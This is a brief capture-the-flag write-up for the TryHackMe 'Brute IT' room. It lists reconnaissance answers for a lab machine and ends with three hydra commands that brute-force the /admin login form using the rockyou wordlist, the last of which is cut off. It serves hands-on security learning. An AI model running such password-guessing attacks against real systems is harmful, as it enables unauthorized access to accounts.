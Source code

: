 ### Brute IT

export IP=10.10.166.204

In this box you will learn about:

- Brute-force

- Hash cracking

- Privilege escalation

Connect to the TryHackMe network, and deploy the machine.

####  Reconnaissance

Before attacking, let's get information about the target

Search for open ports using nmap.
How many ports are open?
- 2

What version of SSH is running?
- OpenSSH 7.6p1

What version of Apache is running?
- 2.4.29

Which Linux distribution is running?
- Ubuntu

![](../../img/Pasted%20image%2020220828045234.png)



Search for hidden directories on web server.
What is the hidden directory?
- /admin

![](../../img/Pasted%20image%2020220828045211.png)


hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.166.204 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:F=incorrect" -V         

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.166.204 http-post-form “/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid” -V

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.166.204 http-post-form "admin/index.php:user=^USER^&pass=^PASS^:invalid